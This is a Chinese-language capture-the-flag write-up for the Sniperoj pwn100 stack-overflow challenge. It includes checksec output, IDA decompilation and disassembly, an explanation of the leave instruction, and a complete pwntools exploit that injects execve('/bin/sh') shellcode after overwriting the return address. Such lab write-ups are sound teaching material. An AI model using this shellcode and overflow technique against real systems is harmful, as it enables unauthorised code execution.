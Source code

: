 # sniperoj-pwn100-shellcode-x86-64

**checksec检查文件**

```
# zhailin @ DESKTOP-4OQQP8F in ~/DGSSZCTIE/Lab/ret2shellcode on git:master x [8:20:17]
$ checksec --file=shellcode
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   72) Symbols       No    0        
```



```
# zhailin @ DESKTOP-4OQQP8F in ~/DGSSZCTIE/Lab/ret2shellcode on git:master x [8:22:37]
$ file shellcode
shellcode: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4600df3dbafbffc6436a38e95b386fc8afbbd63b, not stripped
```



**IDA反汇编**

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD buf[2]; // [rsp+0h] [rbp-10h] BYREF

  buf[0] = 0;
  buf[1] = 0;
  setvbuf(stdout, 0, 1, 0);
  puts("Welcome to Sniperoj!");
  printf("Do your kown what is it : [%p] ?\n", buf);
  puts("Now give me your answer : ");
  read(0, buf, 0x40u);
  return 0;
}
```

覆盖的空间大小为0x40，buf大小为0x10



题目没有发现system函数与“/bin/sh”字符串，且没有开启堆栈不可执行的保护，因此我们可以采用直接写入shellcode的方法。

由于：

```

# zhailin @ DESKTOP-4OQQP8F in ~/DGSSZCTIE/Lab/ret2shellcode on git:master x [8:25:25]
$ python3
Python 3.10.12 (main, Aug 15 2025, 14:32:43) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> shell = asm(shellcraft.sh())
>>> len(shell)
44
>>>
```

我们的`shellcode`长度为44，但是覆盖的空间大小为`0x40`，因此我们需要换一个短一点的`shellcode`



本文所使用的`shellcode`：*https://www.exploit-db.com/shellcodes/46907*

```
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

```
>>> a = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
>>> len(a)
23
```

现在长度足够短，问题来了我们需要放在哪个位置？

我们重新回到IDA中看汇编，发现其中存在`leave`指令：

```
.text:00000000000007D0 ; __unwind {
.text:00000000000007D0                 push    rbp
.text:00000000000007D1                 mov     rbp, rsp
.text:00000000000007D4                 sub     rsp, 10h
.text:00000000000007D8                 mov     [rbp+buf], 0
.text:00000000000007E0                 mov     [rbp+var_8], 0
.text:00000000000007E8                 mov     rax, cs:stdout@@GLIBC_2_2_5
.text:00000000000007EF                 mov     ecx, 0          ; n
.text:00000000000007F4                 mov     edx, 1          ; modes
.text:00000000000007F9                 mov     esi, 0          ; buf
.text:00000000000007FE                 mov     rdi, rax        ; stream
.text:0000000000000801                 call    _setvbuf
.text:0000000000000806                 lea     rdi, s          ; "Welcome to Sniperoj!"
.text:000000000000080D                 call    _puts
.text:0000000000000812                 lea     rax, [rbp+buf]
.text:0000000000000816                 mov     rsi, rax
.text:0000000000000819                 lea     rdi, format     ; "Do your kown what is it : [%p] ?\n"
.text:0000000000000820                 mov     eax, 0
.text:0000000000000825                 call    _printf
.text:000000000000082A                 lea     rdi, aNowGiveMeYourA ; "Now give me your answer : "
.text:0000000000000831                 call    _puts
.text:0000000000000836                 lea     rax, [rbp+buf]
.text:000000000000083A                 mov     edx, 40h ; '@'  ; nbytes
.text:000000000000083F                 mov     rsi, rax        ; buf
.text:0000000000000842                 mov     edi, 0          ; fd
.text:0000000000000847                 call    _read
.text:000000000000084C                 mov     eax, 0
.text:0000000000000851                 leave
```

这段反汇编代码中，`leave` 指令的作用是清理当前函数的栈帧，为函数返回做准备。具体来说：

leave 指令的等效操作：
```nasm
mov rsp, rbp  ; 将栈指针恢复到基址指针的位置（释放局部变量空间）
pop rbp       ; 恢复调用者的基址指针
```
代码中的具体作用：
1. 恢复栈指针：sub rsp, 10h 分配了 16 字节的栈空间用于局部变量（buf 和 var_8）。leave 会撤销这个操作。

2. 恢复基址指针：push rbp 和 mov rbp, rsp 建立了当前函数的栈帧，leave 会恢复调用者的 rbp 值。

3. 为返回做准备：leave 执行后，栈指针 rsp 指向返回地址，接着的 ret 指令就能正确返回到调用者。

而shellcode中对sp进行了push操作，所以leave指令会对shellcode的执行造成影响。所以buf中不能存放shellcode，buf后的8个字节也不能存放（这里需要存放返回地址）



所以，我们的shellcode只能放在buf首地址后的0x10+8后的地址



**计算偏移量**

![gdb](./images/gdb.png)



**Exploit**

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *
import sys

pwd = sys.path[0]
context.log_level = 'debug'
p = process(pwd + '/shellcode')

p.recvuntil(b'[')
buf_addr_str = p.recvuntil(b']', drop=True)
buf_addr = int(buf_addr_str, 16)
print(hex(buf_addr))

shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'

payload = b'A' * 24  
payload += p64(buf_addr + 24 + 8) 
payload += shellcode  

p.sendlineafter(b'Now give me your answer : \n', payload)
p.interactive()
```